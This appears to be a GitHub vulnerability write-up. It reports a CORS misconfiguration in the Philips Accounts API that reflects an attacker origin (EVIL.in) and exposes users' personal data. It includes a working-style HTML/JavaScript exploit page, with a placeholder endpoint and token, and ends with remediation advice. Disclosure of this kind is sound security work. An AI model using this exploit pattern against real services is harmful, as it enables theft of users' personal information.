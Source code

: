 # 🔓 Philips Accounts CORS Misconfiguration Vulnerability

## 📌 Summary

A **Cross-Origin Resource Sharing (CORS)** misconfiguration was identified in the Philips Accounts API, allowing malicious websites 🌐 to make authenticated API requests on behalf of a victim 🧑‍💻 and access sensitive personal information 🔐.

## 🛑 Vulnerability Details

The Philips accounts endpoint improperly reflects and allows requests from arbitrary origins, such as:
`Access-Control-Allow-Origin: https://www.EVIL.in`

⚠️ This insecure configuration permits **malicious websites** to make authenticated API requests from the victim’s browser and **read sensitive information**.

### 🧾 Sensitive Information Exposed
- 📧 Full name and email
- 🆔 UID and Global Subject ID
- 🗓️ Consent flags and timestamps
- 🚻 Gender and 🌍 country information
- ✅ Verified email status

## 🧪 Proof of Concept (PoC)

### 1️⃣ Request Crafted in Burp Suite 🐞
A forged `Origin` header was sent with the value `https://www.EVIL.in`.  
The server responded with `Access-Control-Allow-Origin: https://www.EVIL.in`, allowing cross-origin access.

#### 📸 Screenshot:
![IMG_9232](https://github.com/user-attachments/assets/fb1a6e0d-0fb2-4edf-88a9-3ad1b60a62a3)



### 2️⃣ Live Exploit Demonstration 💥
A crafted HTML page hosted on a malicious domain successfully retrieved the victim’s user info.

**💻 Exploit HTML:**  
```html
<!DOCTYPE html>
<html>
<head>
  <title>Philips CORS Exploit</title>
</head>
<body>
  <h2>Exploit Demo</h2>
  <button onclick="exploit()">Get Philips User Info</button>
  <pre id="output"></pre>

  <script>
    async function exploit() {
      try {
        const res = await fetch("<PHILIPS><END-POINT>", {
          method: "POST",
          headers: {
            "Content-Type": "application/json",
            "Authorization": "Bearer <valid_token>"
          },
          body: "{}"
        });

        const data = await res.json();
        document.getElementById("output").textContent = JSON.stringify(data, null, 2);
      } catch (err) {
        document.getElementById("output").textContent = "Error: " + err;
      }
    }
  </script>
</body>
</html>
```

### 📸 Live Exploit Output:
![IMG_9233](https://github.com/user-attachments/assets/4b05d85f-f48b-44db-9dcd-a1d0cecdec8c)

## 📉 Impact

This vulnerability allows any malicious website to:
- 📤 Exfiltrate personal user information from authenticated Philips sessions.
- 📊 Conduct unauthorized data harvesting and identity profiling.
- 🚫 Bypass Same-Origin Policy protections.


## 🛠 Recommendations

- ✅ Implement a strict CORS policy allowing only trusted origins via a whitelist.
- ❌ Avoid reflecting unvalidated Origin headers.
- 🛡 Protect all sensitive endpoints with CSRF and strict CORS controls.
   🔍 Regularly audit APIs for misconfigurations.

## 🧠 What I have Learnt

Every “No” 📉 teaches us something new 📚 and pushes us to come back stronger 💪⚡

Signing off


